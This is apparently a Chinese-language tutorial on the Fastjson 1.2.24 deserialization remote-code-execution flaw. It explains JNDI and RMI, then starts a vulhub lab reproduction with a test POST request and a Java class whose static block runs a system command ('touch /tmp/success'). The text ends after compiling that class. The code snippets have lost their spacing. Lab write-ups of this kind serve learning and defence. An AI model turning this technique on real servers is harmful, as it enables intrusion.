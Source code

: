 ![image-20230419210122924](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK51dwib7GPQWx5Laic8H28q8gX0MxLFvoiafGyVMJ81VTUYLQxygcboicAjg/640?wx_fmt=png&from=appmsg "")  
# Fastjson  
## 漏洞原理  
  
目标网站在解析 json 时，未对 json 内容进行验证，直接将 json 解析成 java 对象并执行，这就给了攻击者可乘之机，构造对应的 payload ，让系统执行，然后达到代码执行，甚至命令执行的目的。  
  
**攻击者可以传入一个恶意构造的JSON内容，程序对其进行反序列化后得到恶意类并执行了恶意类中的恶意函数，进而导致代码执行**  
。  
  
知识科普  
  
**JNDI是 Java 命名与目录接口（Java Naming and Directory Interface），在J2EE规范中是重要的规范之一。JNDI提供统一的客户端API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用JNDI再局域网上定位一台打印机，也可以用JNDI来定位数据库服务或一个远程Java对象。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用。**  
  
**RMI（Remote Method Invocation）是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。**  
  
**RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。RMI服务端可以直接绑定远程调用的对象以外，还可通过References类来绑定一个外部的远程对象，当RMI绑定了References之后，首先会利用Referenceable.getReference()获取绑定对象的引用，并在目录中保存，当客户端使用lookup获取对应名字时，会返回ReferenceWrapper类的代理文件，然后会调用getReference()获取Reference类，最终通过factory类将Reference转换为具体的对象实例。**  
## 漏洞复现  
```
cd vulhub/fastjson/1.2.24-rcedocker-compose up  -d
```  
  
访问环境  
  
![image-20230420011047000](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5ZLQ2xJVTw5ZYg2xmVb2OFVW9Q3fdEJTXXdDIXhU9urOIljHHX1c9GA/640?wx_fmt=png&from=appmsg "")  
  
在攻击机模拟json发送post请求  
```
curl http://192.168.1.129:8090/-H"Content-Type: application/json"--data '{"name":"karsa", "age":22}'
```  
  
![image-20230420011156121](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5iccMnTNszA3IqRiaLTVcdBFdAJOdOngrAyS5YhHXiaW3lETYbjn8JibvCw/640?wx_fmt=png&from=appmsg "")  
  
验证漏洞存在，接下来去打  
  
首先编辑恶意java代码  
```
// javac TouchFile.javaimportjava.lang.Runtime;importjava.lang.Process;publicclassTouchFile{static{try{Runtime rt =Runtime.getRuntime();String[] commands ={"touch","/tmp/success"};Process pc = rt.exec(commands);            pc.waitFor();}catch(Exception e){// do nothing}}}
```  
  
对文件进行编译  
```
javac TouchFile.java
```  
  